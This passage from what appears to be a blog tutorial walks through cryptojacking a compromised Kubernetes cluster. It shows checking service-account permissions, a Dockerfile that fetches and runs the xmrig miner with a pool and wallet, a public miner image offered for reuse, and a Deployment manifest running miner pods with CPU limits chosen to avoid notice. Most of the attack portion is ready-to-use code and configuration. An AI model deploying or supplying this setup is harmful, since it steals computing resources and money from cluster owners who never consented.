 We are authenticated! You can enumerate your service account permissions using `kubectl can-i <verb> <resource>`. The permissions we want for our cryptojacker is `create deployments`



![create-deployments.png](https://cdn.ruse.tech/imgs/kubernetes-cryptojacking/create-deployments.png)




## Setting up the cryptojacker

Now that we have access to the cluster we need to configure the miner. I have created a docker image built with xmrig. The container requires two env vars to run. The POOL var will tell the miner which miner pool to use. I used pool.minexmr.com:4444. The second env var is WALLET, as expected this will be the wallet where the profit will be sent.

If you don't feel like building the docker image for yourself you can use mine ;) on dockerhub "seb1055/monero-miner".

```docker
FROM alpine AS downloader
LABEL version="0.1"
LABEL maintainer="Sebastian Mora (Ruse) <seb@ruse.tech>"

RUN apk add --no-cache curl && \
  curl -SL https://github.com/xmrig/xmrig/releases/download/v6.7.2/xmrig-6.7.2-linux-static-x64.tar.gz | tar xvzC /tmp --strip-components=1

FROM alpine
RUN mkdir /client
WORKDIR /client
COPY --from=downloader /tmp/xmrig /client
ENTRYPOINT ./xmrig -o ${POOL} -u ${WALLET}

```


Next, we tell K8 how to deploy our miners.

In this config file, we will need to pass the environment vars to pass our containers. In this deployment, we can set the number of pods and their resources. It is important to choose something within reason. Mining is a CPU-intensive process and if we are not careful we could easily exhaust the resources on the cluster.


```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: monero-miner 
spec:
  # Increase replicas for more pods
  replicas: 3
  selector:
    matchLabels:
      app: monero-miner 
  template:
    metadata:
      labels:
        app: monero-miner 
    spec:
      containers:
      - name: monero-miner
        image: seb1055/monero-miner
        # Increase if as needed. Beware of resource exhaustion
        resources:
          limits:
            cpu: "1"
```